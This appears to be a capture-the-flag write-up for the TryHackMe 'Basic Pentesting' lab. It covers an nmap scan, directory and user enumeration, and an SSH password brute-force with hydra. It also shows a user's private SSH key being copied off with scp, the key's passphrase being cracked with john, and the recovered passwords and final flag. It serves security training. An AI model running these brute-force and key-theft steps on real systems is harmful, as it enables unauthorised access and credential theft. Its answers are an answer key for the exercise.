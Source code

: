 # Basic Pentesting Writeup
> URL : https://tryhackme.com/room/basicpentestingjt 
- Target IP : `10.10.165.235`
## Scanning
- `nmap -A 10.10.165.235`
    - ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-24 04:40 EDT
        Nmap scan report for 10.10.165.235
        Host is up (0.27s latency).
        Not shown: 994 closed ports
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
        |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
        |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
        |_http-server-header: Apache/2.4.18 (Ubuntu)
        |_http-title: Site doesn't have a title (text/html).
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
        | ajp-methods: 
        |_  Supported methods: GET HEAD POST OPTIONS
        8080/tcp open  http        Apache Tomcat 9.0.7
        |_http-favicon: Apache Tomcat
        |_http-title: Apache Tomcat/9.0.7
        Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
        |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: basic2
        |   NetBIOS computer name: BASIC2\x00
        |   Domain name: \x00
        |   FQDN: basic2
        |_  System time: 2021-07-24T04:41:05-04:00
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-security-mode: 
        |   2.02: 
        |_    Message signing enabled but not required
        | smb2-time: 
        |   date: 2021-07-24T08:41:04
        |_  start_date: N/A

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 52.95 seconds
      ```
  - The open port is 
      - 22 SSH
          - [OpenSSH 7.2p2 - Username Enumeration](https://www.exploit-db.com/exploits/40136)
      - 80 HTTP
          - Apache/2.4.18  : no vulnerability
      - 139、445 SMB
          - Samba smbd 4.3.11-Ubuntu  : no vulnerability
      - 8009 AJP13
      - 8080 Tomcat

## Access Website (80 port)
- Use dirsearch
    - `python3 dirsearch.py -u http://10.10.165.235/ -e all`
- Question1 :  What is the name of the hidden directory on the web server(enter name without /)? 
    - development
- After access the development page, we can get 2 files
    - ![](https://i.imgur.com/h9T1zYV.png)
    - They are some mail from J and K to talk about some upgrade smb issue.

## Try to find the username
- `enum4linux 10.10.165.235 -a`
    - ![](https://i.imgur.com/ccICsWv.png)
    - So there are 2 username we find
        - `kay` and `jan`
- Although the verison of SSH services is 7.2p2, it has a vulnerability with Username Enumeration
    - https://www.exploit-db.com/exploits/40136
    - But I have tried and it doesn't work
    - ![](https://i.imgur.com/Xwze4iP.png)

## What is the password?
- We need to burp force the password for these 2 users
- Use hydra to check with rockyou.txt
    - hydra -l kay -P /opt/rockyou.txt ssh://10.10.165.235 
    - `hydra -l jan -P /opt/rockyou.txt ssh://10.10.165.235`
        - ![](https://i.imgur.com/77oZcJ3.png)
        - We find the password : `armando` with user `jan`
        
## Login into ssh services with jan's credential
- `ssh jan@10.10.165.235`
- We are login with jan, but we can't cat ``/home/kay/pass.bak`
    - ![](https://i.imgur.com/2dQSsQP.png)
- And then we find some cool things at /home/kay/.ssh
    - ![](https://i.imgur.com/bkNLRzZ.png)
    - This is the login key file he/she forgot to remove, so we can login with ssh without password, we can try to scp it to our computer by `scp -r jan@10.10.165.235:/home/kay/.ssh .`
  - Use ssh command to try to login with kay
      - `chmod 600 id_rsa`
      - `ssh kay@10.10.165.235 -i id_rsa`
      - ![](https://i.imgur.com/ZYwW4DA.png)
      - But the key file needs password, so we need to crak

## Crack ssh key
- Use ssh2john : https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
- python ssh2john.py id_rsa > john_ssh
    - ![](https://i.imgur.com/q9iN7v4.png)
- Run john with wordlist rockyou
    - `john john_ssh --wordlist=/opt/rockyou.txt`
    - ![](https://i.imgur.com/m2Dtw1b.png)
    - So password is `beeswax`
## Use key file and password to login with ssh
- ![](https://i.imgur.com/uUwKzEO.png)
- And we can find the final flag!
    - `heresareallystrongpasswordthatfollowsthepasswordpolicy`

